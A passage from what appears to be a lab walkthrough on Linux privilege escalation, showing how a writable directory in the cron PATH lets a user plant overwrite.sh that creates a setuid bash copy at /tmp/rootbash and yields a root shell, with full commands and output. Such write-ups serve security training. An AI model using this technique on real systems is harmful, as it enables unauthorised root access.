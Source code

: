 Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

```bash
/tmp/rootbash -p
```

Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

```bash
rm /tmp/rootbash
exit
```

## #1 - What is the value of the PATH variable in /etc/crontab?

~~~
$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
~~~

~~~
user@debian:~$ cd
user@debian:~$ cat > overwrite.sh << EOF
> #!/bin/bash
> 
> cp /bin/bash /tmp/rootbash
> chmod +xs /tmp/rootbash
> EOF
user@debian:~$ chmod +x ~/overwrite.sh 
user@debian:~$ /tmp/rootbash -p
-bash: /tmp/rootbash: No such file or directory
user@debian:~$ /tmp/rootbash -p
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
~~~
